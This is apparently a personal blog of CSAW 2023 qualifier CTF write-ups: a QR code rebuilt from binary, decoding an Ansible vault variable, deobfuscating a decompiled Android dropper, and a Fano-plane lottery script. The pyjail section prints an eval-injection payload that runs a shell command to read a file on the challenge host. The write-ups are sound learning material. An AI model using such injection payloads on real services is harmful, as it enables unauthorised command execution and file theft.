


This was a qualifier for the CSAW cybersec event. It was organized by students of NYU college of engg. This was the first CTF in which I got a first-blood on a challenge - so this is one for the memory banks. 
<!--more-->

#### 1black0white
`We received this file of seemingly random numbers, but the person that sent it is adamant that it is a QR code. Can you figure it out for us?`

We are given a file with 29 numbers, ranging from `99072` to `534645340`. I initially thought each digit might represent the consecutive number of whites and blacks. However, knowing that the XOR masks prevent long sequences of whites and blacks, I ruled that out. Taking the hint from the problem title, I looked at the binary value of the largest number `len(bin(534645340)[2:])`, which happened to be exactly 29 bits long. So, we know that the binary representation of the 29 numbers will yield a `29 x 29` matrix, which are the dimensions of a QR code version 3. The rest of the solution is to recreate the QR code and scan it to get the flag.

```python
    # print the QR code to the terminal
    F = open('qr_code.txt', 'r')
    out = ['██', '  ']      # two characters to simulate a square aspect ratio

    for l in F.readlines():
        l = bin(int(l.strip()))[2:].zfill(29)   # fill with leading zeros
        l = l.replace('1', out[0])
        l = l.replace('0', out[1])
        print(l)
```
Or a simple one-liner pipeline with bash:

```bash
% (echo obase=2; tr -d '\r' < qr_code.txt) | bc | awk '{printf "%029s\n",$0}' |sed -e 's/1/██/g' -e 's/0/  /g'                             
```


#### Br3akTh3V@u1t 
`'Greed is good.' - Gordon Gekko.  Come and Break My Vault`

I got first blood on this forensics challenge. However, I am almost sure that my solution is not the intended one, as I used mostly crypto techniques than forensic analysis to solve this challenge. 


We are given 3 files. An empty `ansible.cfg` file. A `main.yml` that contains a set of parameters definitions. And, an ansible runbook `runme.yml`.  The runbook contains various steps to create directories, create a vault, adding a secret, encrypting it etc. 
I did not have an ansible setup and I was not going to install and configure one for this challenge. 

So, looking into the other file `main.yml`, we see that it contains three variables that are very suspicious - aptly named `sus`, `sus1337` and `sus14`. 
* `sus` - has numbers only, 106 digits long
* `sus1337` - has numbers only, 20 digits long
* `sus14`- Hexadecimal, 6768 bytes represented. 

Whenever I see a hexadecimal string, I look at the end of the strings for the padding character to see if the data could be Base64 encoded. The padding character is the `equals` sign `=` or `0x3d` in ASCII. Interestingly, I did not see `0x3d` at the end of this hexadecimal string, but instead I saw `0xD3`. This made me curious and I wanted to profile the two halves of each byte. 

* `% grep sus14 main.yml | cut -d\" -f2 | fold -w2 | cut -c1 | sort | uniq` - shows that all the 16 hexadecimal characters (0-F) appear in the first position.
* `% grep sus14 main.yml | cut -d\" -f2 | fold -w2 | cut -c2 | sort | uniq` - shows that only the characters `3,4,5,6,7` appear in the second position. 

So, if these two values swapped positions, we would have bytes in the hex stream that have values from `0x30 to 0x7F`, which happens to be the printable ASCII range. 

So, I grabbed the `sus14` variable again and swapped the position of every pair of hex characters using my favorite regex. 
* `% grep sus14 main.yml | cut -d\" -f2 | sed -E 's/(.)(.)/\2\1/g' | xxd -p -r ` - this shows a valid base64 encoded string

Decoding the base64 string shows a long article by Eric Hughes, called the `A Cyberpunk's Manifesto`
```
% grep sus14 main.yml | cut -d\" -f2 | sed -E 's/(.)(.)/\2\1/g' | xxd -p -r | base64 -d
 Privacy is necessary for an open society in the electronic age. Privacy is not secrecy. A private matter is something one doesn't want the whole world to know, but a secret matter is something one doesn't want anybody to know. Privacy is the power to selectively reveal oneself to the world.
<snip>
The Cypherpunks are actively engaged in making the networks safer for privacy. Let us proceed together apace.

Onward.

Eric Hughes
```
However, we still do not have a flag. Turning my attention to the other two variables, we can see that unlike `sus14`, they seem to be decimal numbers. So, I converted them to hexadecimal representation before giving them the same treatment. 

```
% grep sus1337 main.yml | cut -d\" -f2
15295865526991442899
% (echo obase=16; grep sus1337 main.yml | cut -d\" -f2) | bc
D445D4A7E477D3D3
% (echo obase=16; grep sus1337 main.yml | cut -d\" -f2) | bc | sed -E 's/(.)(.)/\2\1/g' | xxd -p -r | base64 -d
1337
```
So, the variable `sus1337` yields the string `1337`

Treating the `sus` variable in the same manner, gives us the flag. 
```bash
% (echo "obase=16"; grep "sus:" main.yml | cut -d\" -f2 ) | bc | tr -d '\n\' | sed -E 's/(.)(.)/\2\1/g' | xxd -p -r | base64 -d
csawctf{w@11_ST_1s_n0t_n3ce$$@ry}

# of course we can use python - but where is the fun in that ?!?
% grep "sus:" main.yml | cut -d\" -f2 | python -c "print(hex(int(input()))[2:])" | sed -E 's/(.)(.)/\2\1/g'  | xxd -p -r | base64 -d
```
#### Android Dropper
`This app does nothing!`

We are given an APK file, which dynamically loads a dex file. I decompiled the APK file using online java decompilers and then the dex file, which gives us the following logic. We can see that there is a obfuscation function, which can easily be reversed. 

```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;

public class Dropped {
    static byte[] notTheFlag;

    /* JADX INFO: finally extract failed */
    public static String getFlag() throws IOException {
        String str;
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("http://misc.csaw.io:3003").openConnection();
        try {
            httpURLConnection.connect();
            str = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream())).readLine();
            httpURLConnection.disconnect();
        } catch (Exception e) {
            e.printStackTrace();
            httpURLConnection.disconnect();
            str = "";
        } catch (Throwable th) {
            httpURLConnection.disconnect();
            throw th;
        }
        notTheFlag = Base64.getDecoder().decode(str);
        return obf(275, 306, 42);
    }

    public static String obf(int i, int i2, int i3) {
        int i4 = i2 - i;
        char[] cArr = new char[i4];
        for (int i5 = 0; i5 < i4; i5++) {
            cArr[i5] = (char) (notTheFlag[i + i5] ^ i3);
        }
        return new String(cArr);
    }
}
```
The final solution is: 
```python
    a = "bEVYCkNEWV5LRElPBgpFRA ...<snip>...RURZBA" #provided by a call to the challenge server

    # reverse the obfuscation logic in the dex file.

    def deobfus(notTheFlag, i, i2, i3):
        i4 = i2 - i
        flag = [b'']* i4
        for i5 in range(i4):
            flag[i5] = notTheFlag[i+i5] ^ i3
        print (''.join([chr(x) for x in flag]))

    deobfus(b64decode(a), 275, 306, 42)

    # csawctf{dyn4m1c_lo4deRs_r_fuN!}
```

#### My first pwnie
A simple pyjail challenge that needs us to take advantage of a `eval()` step to read the flag. 

```bash
% nc intro.csaw.io 31137
What's the password? __import__("os").system("cat /flag.txt")
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

#### Lottery 
`Can you break this lottery service and guarantee a profit in the long run?`

```
    Here is how the lottery works:
    - Players purchase tickets comprising their choices of six different numbers between 1 and 70
    - During the draw, six balls are randomly selected without replacement from a set numbered from 1 to 70
    - A prize is awarded to any player who matches at least two of the six drawn numbers.
    - More matches = higher prize!

    ********************
    How many tickets would you like to buy? There is a limit of 40 tickets per person
    >> 
```

I implemented this solution after the CTF ended. Primarily, this challenge boiled down to knowing the context of combinatorial design and Fano planes. From the flag, it appears that the authors were inspired by the videos of Matt Parker which describes projective planes. 



In summary, out strategy is to take 3 pairs of numbers along the 7 connected lines in the Fano plane, so that any two numbers are in atleast one of the six numbers selected. By creating 5 sets of these tickets, we can cover any two numbers in the range `1..70`. The total number of tickets used is `7 x 5 = 35`, costing a total of 35. The minimum prize guaranteed in each turn for a pair of matches is 36. Hence there is a minimum, positive expected outcome of 1 for every turn. 

```python
from pwn import *

# context.log_level = "debug"

'''
From: 
"YOU NEED 27 TICKETS TO GUARANTEE A WIN
 ON THE UK NATIONAL LOTTERY"
DAVID CUSHING AND DAVID I. STEWART
See https://arxiv.org/pdf/2307.12430.pdf for the explanation

              (A)                     VALUES           COMBOS      
              /|\                  A   0   7      |     ABC  = [0,7,1,8,2,9]  
             / | \                 B   1   8      |     AGD  = [0,7,6,13,3,10]
            /  |  \                C   2   9      |     AFE  = [0,7,5,12,4,11]
           /  .|.  \               D   3   10     |     CGF  = [2,9,6,13,5,12]
          / .  |  . \              E   4   11     |     CDE  = [2,9,3,10,4,11]
         /.    |    .\             F   5   12     |     EGB  = [4,11,6,13,1,8]
     (F)+.     |     .+(B)         G   6   13     |     BDF  = [1,8,3,10,5,12]
       / . \__ |   _/ .\      
      /  .   \_|__/   . \       We can see that any two numbers in the range of [0..13] is in atleast one of the
     /    .  _(G)\_  .   \      7 tickets above.  Repeat this for all numbers from [1..70], which takes 35 tickets.
    /   __._/  |    \.__  \  
   /  _/   .   |    .  \__ \ 
  /__/      .  |  .        \_\
(E)------------.-------------(C)
              (D)         
'''

def generateTicketCombos(s):

    # return all possible lines - ABC, AGD, AFE, CGF, CDE, EGB, BFD
    A = [s + a for a in [0,7]]
    B = [s + a for a in [1,8]]
    C = [s + a for a in [2,9]]
    D = [s + a for a in [3,10]]
    E = [s + a for a in [4,11]]
    F = [s + a for a in [5,12]]
    G = [s + a for a in [6,13]]

    return [
        A+B+C,
        A+G+D,
        A+F+E,
        C+G+F,
        C+D+E,
        E+G+B,
        B+F+D,
    ]

def getTickets():
    tix = []
    for i in range(0, 70, 14):  
        for t in generateTicketCombos(i+1):
            tix.append(t)
    print(f"Got {len(tix)} tickets")
    return tix

def did_i_win():
    mytix = getTickets()  # we are going to use the same tickets regardless of the winning numbers
    num_tix = len(mytix)  # 35

    # open connection to the server
    # R = process(['python3', 'lottery_server.py'])
    R = remote('crypto.csaw.io', 5000)
    R.recvuntil(b">>")
    R.sendline(str(num_tix).encode())   # number of tickets

    for i,t in enumerate(mytix):
        for n in range(6):  #send one number at a time
            R.recvuntil(b">>")
            R.sendline(str(t[n]).encode('utf-8'))   
    R.interactive()

did_i_win()

```


### Resources and writeups
* https://github.com/ahershy/Mega_Millions_Simulator/blob/master/Lucky%20Scenario%20MM.ipynb
* https://arxiv.org/pdf/2307.12430.pdf
* https://eprint.iacr.org/2023/305.pdf   (Blocky nonce)
* https://austinstitz-hacking.github.io/csaw23qual/
* Official repo: https://github.com/osirislab/CSAW-CTF-2023-Quals

### Challenges

|Category|Challenge|Description
|----|----|----
|Incident Response|Disclaimer|
|Incident Response|Initial Access|
|Incident Response|What is going on?|
|crypto|Blocky Noncense|
|crypto|Circles|
|crypto|Mental Poker|
|crypto|lottery|use fano planes to guess at least two lottery numbers
|forensics|1black0white|
|forensics|Br3akTh3V@u1t|Ansible vault secret
|intro|Baby's First|
|intro|Baby's Third|
|intro|my_first_pwnie|
|intro|puffin|
|intro|target_practice|
|intro|whataxor|
|misc|AndroidDropper|APK->dex->rev
|misc|Discord Admin Bot|
|misc|Linear Aggressor|
|misc|r u alive? (Start here)|
|misc|stonk|
|pwn|Super Secure Heap|
|pwn|double zer0 dilemma|
|pwn|unlimited_subway|
|rev|Impossibrawler!|
|rev|Rebug 1|
|rev|Rebug 2|
|rev|rox|
|web|MTA Prices|
|web|Philantrophy|
|web|Smug-Dino|
|web|rainbow_notes|
